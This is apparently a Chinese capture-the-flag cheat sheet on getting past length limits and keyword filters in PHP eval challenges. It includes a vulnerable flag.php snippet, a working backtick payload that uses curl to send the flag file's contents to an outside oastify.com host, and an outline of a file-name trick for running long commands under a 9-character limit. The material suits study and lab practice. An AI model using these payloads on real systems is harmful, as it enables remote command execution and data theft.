

## **拼接绕过**
```
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```
传递自己变量，再执行
```
?F=`$F`; curl http://5lrtqoyzsnfd6s20fvez6ojwmnsfg94y.oastify.com/`cat flag.php|grep ctfshow`
```


^
## **汉字长度url编码绕过**



^
## **限制命令长度的远程命令**
如限制命令长度字符为9:
把超过9的命令进行base64编码
差分不同段成符合长度
命令换行
倒序每一个命令生成以文件名
文件名按时间查看，并写入一个文件
sh x 执行文件

查看当前目录中的文件内容flag。
先>nl
再*

可参考：<https://www.cnblogs.com/pursue-security/p/15403906.html>
^
